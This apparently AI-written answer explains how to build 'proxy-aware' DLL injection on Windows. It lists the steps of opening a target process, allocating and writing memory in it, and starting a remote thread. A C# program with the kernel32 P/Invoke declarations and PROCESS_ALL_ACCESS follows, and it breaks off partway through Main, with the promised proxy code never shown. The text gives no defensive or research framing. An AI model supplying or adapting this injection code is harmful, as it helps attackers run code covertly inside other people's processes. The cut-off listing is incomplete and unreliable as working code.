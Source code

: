 
To create a proxy-aware DLL injection in C# or PowerShell, you'll need to perform the following steps:

1. **Locate the target process**.
2. **Allocate memory in the target process**.
3. **Write the path of the DLL into the allocated memory**.
4. **Create a remote thread in the target process that loads the DLL**.

Additionally, you need to configure the proxy settings in your code if your injection needs to communicate over the network.

Below is a simplified example in C# that performs DLL injection into a target process and sets proxy settings.

### C# Example

#### Step 1: Define necessary P/Invoke methods

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace ProxyAwareDLLInjection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern bool CloseHandle(IntPtr hObject);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
        const uint MEM_COMMIT = 0x00001000;
        const uint MEM_RESERVE = 0x00002000;
        const uint PAGE_READWRITE = 0x04;

        static void Main(string[] args)
        {
            int targetProcessId = 1234; // Replace with the target process ID
            string dllPath = @"C:\path\to\your.dll";

            IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);
            if (hProcess == IntPtr.Zero)
            {
```
